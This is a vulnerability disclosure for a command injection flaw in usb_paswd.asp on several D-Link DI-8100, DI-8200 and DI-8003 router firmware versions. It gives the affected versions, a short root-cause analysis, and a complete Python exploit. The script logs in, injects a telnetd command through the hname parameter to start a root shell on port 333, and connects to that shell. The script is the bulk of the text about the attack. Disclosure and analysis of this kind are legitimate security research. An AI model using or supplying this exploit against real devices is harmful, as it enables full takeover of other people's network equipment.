








**Vendor of the products:** D-Link

**Affected Device:** D-Link DI-8100、DI-8100G、DI-8200、DI-8200G、DI-8003、DI-8003G

**Version:** DI_8100-16.07.26A1

DI_8100G-17.12.20A1

DI_8200-16.07.26A1

DI_8200G-17.12.20A1

DI_8003-16.07.26A1

DI_8003G-19.12.10A1

**Firmware Download:** http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8100

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8100G

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200G

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8003

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8003G

**Vulnerability Description:** A command injection vulnerability was discovered in D-Link DI_8100-16.07.26A1、DI_8100G-17.12.20A1、DI_8200-16.07.26A1、DI_8200G-17.12.20A1、DI_8003-16.07.26A1 and DI_8003G-19.12.10A1, triggered by the name and hname parameters in usb_paswd.asp. Attackers can exploit this vulnerability by crafting malicious packets to execute arbitrary commands, thereby gaining full control of the target device.


# POC:

**Functional interface:**

 

**request1：**

 

**request2:**

 

# Vulnerability Effect:

It can be observed that the router receives the request and successfully executes the command. The attacker can execute arbitrary commands.

 

 

# Vulnerability Cause:

The issue resides in the jhttpd component. In jhttpd, the program invokes the sub_4621DC function to handle requests related to usb_paswd.asp. The program first retrieves the user-input parameters name and hname via httpd_get_parm.

 

Next, the program uses nvram_set to set the values of usb_username and usb_husername to the parameters v5 and v7 input by the user from the frontend. Subsequently, the program retrieves the values of the usb_username and usb_husername fields from NVRAM via the jhl_nv_get_def function. These values are concatenated using the sprintf function and directly passed to the system function for execution. Since no security checks are performed during this process, it leads to a command injection vulnerability. Attackers can execute arbitrary commands and fully control the device by constructing malicious parameters.

 

For DI_8100、DI-8200 and DI-8003 16.07.26A1 , only the "name" (field/parameter) can trigger this vulnerability.



# EXP:


```python
#!/usr/bin/env python3
import requests
import re
import os
import time
import argparse
from urllib.parse import quote
from getpass import getpass

requests.packages.urllib3.disable_warnings()

def parse_args():
    """Parse command-line arguments"""
    parser = argparse.ArgumentParser(description='D-link Exploit POC')
    parser.add_argument('-i', '--ip', default='192.168.0.1',
                       help='Target IP address (default: 192.168.0.1)')
    parser.add_argument('-u', '--username', default='admin',
                       help='Username (default: admin)')
    parser.add_argument('-p', '--password',
                       help='Password (will prompt if not provided)')
    parser.add_argument('-P', '--port', type=int, default=80,
                       help='HTTP port (default: 80)')
    parser.add_argument('-t', '--telnet-port', type=int, default=333,
                       help='Telnet port to open (default: 333)')
    return parser.parse_args()

def get_password(args):
    """Get password securely"""
    if args.password:
        return args.password
    return getpass(f"Enter password for {args.username} (default: admin): ") or "admin"

def build_url(ip, port, path):
    """Construct full URL"""
    return f"http://{ip}:{port}{path}"

def login(args):
    """Authenticate and get session cookies"""
    url = build_url(args.ip, args.port, "/login.cgi")
    headers = {
        "Host": f"{args.ip}:{args.port}",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Content-Type": "application/x-www-form-urlencoded",
        "Connection": "keep-alive",
    }

    data = {
        "user": args.username,
        "password": args.password
    }

    try:
        response = requests.post(url, headers=headers, data=data, verify=False)
        print(f"\n[+] Login Status: {response.status_code}")
        
        cookies = response.cookies.get_dict()
        if 'Set-Cookie' in response.headers:
            gw_cookie = re.search(r'gw_userid=([^;]+)', response.headers['Set-Cookie'])
            if gw_cookie:
                cookies['gw_userid'] = gw_cookie.group(1)
        return cookies
        
    except Exception as e:
        print(f"[-] Login failed: {str(e)}")
        return None

def execute_command(args, cookies):
    """Exploit command injection"""
    command = f"$(telnetd%20-l%20/bin/sh%20-p%20{args.telnet_port})"
    url = build_url(args.ip, args.port, f"/usb_paswd.asp?share_enable=1&hname={command}&passwd=")
    

    headers = {
        "Host": f"{args.ip}:{args.port}",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate, br",
        "Connection": "keep-alive",
        "Cookie": f"userid={args.username}; gw_userid={cookies.get('gw_userid', '')}",
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i"
    }

    try:
        print(f"\n[+] Sending exploit request: {url}")
        response = requests.get(url, headers=headers, verify=False, allow_redirects=False)
        
        print(f"[+] Exploit status: {response.status_code}")
        if response.headers.get('Set-Cookie'):
            print(f"[+] Response Set-Cookie: {response.headers.get('Set-Cookie')}")
        
        return True
    except Exception as e:
        print(f"[-] Exploit failed: {str(e)}")
        return False

def connect_telnet(ip, port):
    """Establish telnet connection"""
    print(f"\n[+] Attempting to connect via telnet to {ip}:{port}...")
    print("[+] If connection fails, try manually:")
    print(f"    telnet {ip} {port}")
    time.sleep(2)
    os.system(f"telnet {ip} {port}")

def main():
    args = parse_args()
    args.password = get_password(args)

    print(f"\n[+] Target: {args.ip}:{args.port}")
    print(f"[+] Credentials: {args.username}:{'*' * len(args.password)}")
    print(f"[+] Will open telnet on port: {args.telnet_port}")

    cookies = login(args)
    if not cookies:
        return

    if execute_command(args, cookies):
        connect_telnet(args.ip, args.telnet_port)

if __name__ == "__main__":
    main()
```


 

 

 

 